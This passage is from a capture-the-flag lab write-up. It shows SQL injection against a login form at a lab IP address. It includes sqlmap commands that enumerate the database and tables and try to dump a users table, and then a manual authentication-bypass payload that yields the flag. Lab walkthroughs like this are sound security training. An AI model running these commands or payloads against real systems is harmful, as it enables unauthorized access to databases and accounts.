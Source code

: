 The injection is successful and sqlmap enumerates 2 dbs:
<br/>
```console
appdb
information_schema
```

Let's retrieve the tables of the `appdb` database:
<br/>

```console
sqlmap -u http://10.129.85.215 / --data="username=user&password=pwd" --method POST --tables -D appdb

Database: appdb
[1 table]
+-------+
| users |
+-------+

```
Interesting, let's dump the `users` table:
<br/>

```console
sqlmap -u http://10.129.85.215 / --data="username=user&password=pwd" --method POST --dump -D appdb -T users


```
Unfortunately sqlmap dump in this case seems too instable and fails multiple times 😔
<br/>

the reason seems to be that the colum `pass` of the `users` table contains strange characters:
<br/>
```console
[17:53:13] [ERROR] invalid character detected. retrying..
```
<br/>
Let's try manually with some sqli payloads, directly from the login page...
<br/>
<br/>

The string `admin' or '1'='1` seems to work! (pass this in the `username` field)
<br/>
And boom! 💥💥💥
<br/>
 We have our flag! 🏴

 <div style="width: 65%; height: 65%">

  ![](images/flag.png)
  
